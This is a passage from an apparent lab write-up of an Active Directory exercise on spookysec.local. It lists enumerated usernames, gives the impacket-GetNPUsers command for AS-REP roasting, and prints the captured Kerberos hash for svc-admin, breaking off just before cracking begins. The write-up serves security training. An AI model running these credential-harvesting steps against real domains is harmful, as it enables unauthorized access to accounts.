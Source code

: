 After successfully enumerating valid domain usernames using Kerbrute, we aggregated the discovered accounts into a user list file. This list serves as a critical resource for subsequent enumeration and authentication-based attacks, such as password spraying or AS-REP roasting. Maintaining an accurate and well-organized user file is essential for ensuring efficient targeting throughout the Active Directory exploitation process.

```php
james
James
svc-admin
robin
darkstar
administrator
backup 
```
After successfully enumerating valid user accounts, I utilized `impacket-GetNPUsers.py` to perform an `AS-REP Roasting` attack. This technique targets accounts that have the `"Does not require Pre-Authentication"` flag enabled in Active Directory. When such accounts are identified, it's possible to request a Ticket Granting Ticket (TGT) without valid credentials. The returned ticket can then be captured and subjected to offline brute-force or dictionary attacks to retrieve plaintext credentials.

# Capturing AS-REP Hashes

```php
impacket-GetNPUsers spookysec.local/ -dc-ip 10.10.109.124 -dc-host spookysec.local -usersfile users.txt -request
```

```php
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:ab26d8d89927724852bd1c0d655dfe1d$844cd5599fb916ac455d01b4376bb930494bcd1a1e74fa8e4cd854cfb120d64fdeb2e9651e761701e647a1fc761baba84523780ee7e2870854887
fa13a970800ab4e4d01578ae5223956f7988b0b1c253cf3d4fdadfbfa857cbeca2de93f43d11948c7e12ba101d75817e885dff5ab315e0c51355cb4b2ee27d62a0b77a5a8c6085d200f59398784758cba1126ee3169819d6ddff3d423d5a56
1486c5b2b292bc9455b76d24aea79d27f6d54c7f37cb4da68749717cf80b25ffce128332aa407088907374a82e7e525e133105c5e5ae56ba63c9f5133191e5ce378ce719384145297c872934d7ebde3a6861c0854c9ccd37a
```

![image.png](assets/screenshots/Attactive/1.webp)

After executing the AS-REP Roasting attack using GetNPUsers.py, I successfully identified a vulnerable account: `svc-admin@spookysec.local`. This account had the `"Do not require Kerberos preauthentication"` flag enabled, allowing me to extract a TGT hash without providing valid credentials. The resulting hash is formatted for compatibility with cracking tools like Hashcat or John the Ripper.

Cracking the hash using john
